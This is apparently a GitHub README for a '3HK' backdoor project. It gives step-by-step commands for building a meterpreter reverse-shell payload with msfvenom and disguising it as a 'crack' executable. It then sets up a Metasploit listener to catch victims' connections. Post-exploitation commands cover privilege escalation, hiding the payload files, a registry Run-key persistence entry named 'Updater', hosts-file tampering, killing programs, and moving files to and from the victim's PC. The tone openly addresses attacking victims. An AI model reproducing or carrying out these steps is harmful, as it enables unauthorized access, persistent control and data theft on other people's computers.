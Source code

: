 # Invisible Access 👁‍🗨
This repository is part of the 3HK initiative. It provides an experimental framework for generating custom payloads and demonstrating basic backdoor mechanisms.
The goal is to illustrate core concepts of access persistence, payload delivery, and post-exploitation techniques.
Alongside the scripts, you’ll find explanatory notes and sample files that serve as learning references.
```
Use it wisely. Or don’t.
```
👹 3HK

## Static Ip
### Basic step

1.    Install VMware Workstation or any other virtual Machine 
2.    download kali-linux-2025-W22-installer-amd64 *(ISO)*
3.    Create your own Machine

### VMware Settings

   1. Player -> Manage -> Virtual Machine Settings
   2. Network Adapter  -> Bridged : Connected directly to the physical Network
   3. select *_Replicate physical network connection state_*

### Point Acces Mobile (متاصل من هاتف)
```
 sudo nano /etc/network/interfaces
```
*  Write :
```
# The loopback network interface
auto lo
iface lo inet loopback
```
*  Now we go to *Resolv.conf*
```
sudo nano /etc/resolv.conf
```
*  Add your nameserver, exemple if ur ip is 192.168.42.50 put 
```
nameserver 192.168.42.1
```
*  ⚠️**Restart your pc**

### WIFI
```
 sudo nano /etc/network/interfaces
```
	Clear the previous two lines of *Point Acces Mobile (متاصل من هاتف)*
	add these lines and dont forget to change *XXX* to a number between 1 to 255.
```
auto eth0
iface eth0 inet static
    address 192.168.1.XXX
    netmask 255.255.255.0
    gateway 192.168.1.1
```
*  Now we go to **Resolv.conf**
```
sudo nano /etc/resolv.conf
```
*  Add these domains 
```
nameserver 8.8.8.8
nameserver 8.8.4.4
nameserver 1.1.1.1
```
*  ⚠️**Restart your pc**

## Download Tools

**Metasploit**
```
sudo apt install metasploit-framework
```
**ps2exe**
*  run PowerShell as an administrator
```
Find-Module -Name PowerShellGet | Install-Module 
Set-ExecutionPolicy RemoteSigned -Scope CurrentUser
Install-Module -Name ps2exe
```
## Command line

*  Here u gonne find all command u need, we started with Created Payload
```
Cd Desktop
```
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={YOUR IP} LPORT={YOUR PORT 8080 or 4444 ...} -f exe -o {Name of your Payload}.exe
```
   **Compression of Payload**
```
tar -czvf {Compressed file name}.tar.gz {Name of your Payload}.exe
```
   **Create a Malware backdoor**

   *  Download my file _Crack.ps1_
  *  Edit the file to suit your Payload.

   **Convert file powershell (.Ps1) to Exe**
   1.    Run Powershell.
   2.    Go to the file location.
   3.    Command line (Change name *crack* to your)
```
Invoke-ps2exe .\crack.ps1 .\crack.exe -noConsole
```

### Metasploit
  *  Now with the moment awaited to hack the victim 🗡
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST {YOUR IP}
set LPORT {YOUR PORT 8080 or 4444 ...}
run
```
This is the quiet before the breach *_msfconsole_* is loaded. *Payload* deployed,
Metasploit doesn’t knock — it walks in, one click, one exploit... and they’re mine 🗡
After they made the mistake :)
``` 
Sessions -i
```
   **Chose the sessions of your victime example 1**
```
sessions 1
getuid   | يعرض المستخدم الحالي
getsystem  | أخد صلاحية System
```
   **Hide files, change your file link if you change it**
```
execute -f cmd.exe -a "/c attrib +h +s C:\\Users\\Administrator\\AppData\\Roaming\\Microsoft\\Windows\\{Name of your Payload}.exe"

execute -f cmd.exe -a "/c attrib +h +s C:\\Users\\Administrator\\AppData\\Roaming\\Microsoft\\Windows\\{Name of your Backdoor crack}.exe"
```
   **Create the file in the registry**
```
reg setval -k "HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run" -v "Updater" -d "C:\\Users\\Administrator\\AppData\\Roaming\\{Name of your Payload}.exe"
```
   **Block Website**
```
execute -f cmd.exe -a "/c echo 127.0.0.1 {PUT LINK OF WEBSITE U WANT TO BLOCK}.com >> C:\\Windows\\System32\\drivers\\etc\\hosts"
```
   **Kill Programe (Stop Running)**
```
execute -f cmd.exe -a "/c taskkill /{PROGRAM NAME}.exe /F"
```
   **Upload the file to the victim's pc**
```
upload /home/xxxx/Desktop/YYY
```
  *  xxxx : name of ur folder (link)
  *  YYY  : name of file 

 **Download file from victim's pc**
*  access the file do you want to take from it
```
Download FILE_NAME
```
 
## Tutorial Video 
[![3HK- Backdoor](https://user-images.githubusercontent.com/47686437/168548113-b3cd4206-3281-445b-b7c6-bc0a3251293d.png)](https://youtu.be/il4H8FB2BLg)

## Whatsapp Channel
[![3HK- Backdoor](https://github.com/appicons/Whatsapp/blob/master/icons/whatsapp_194x194.png)](https://whatsapp.com/channel/0029Vb62RTF0G0XeN4Qx4c3W)







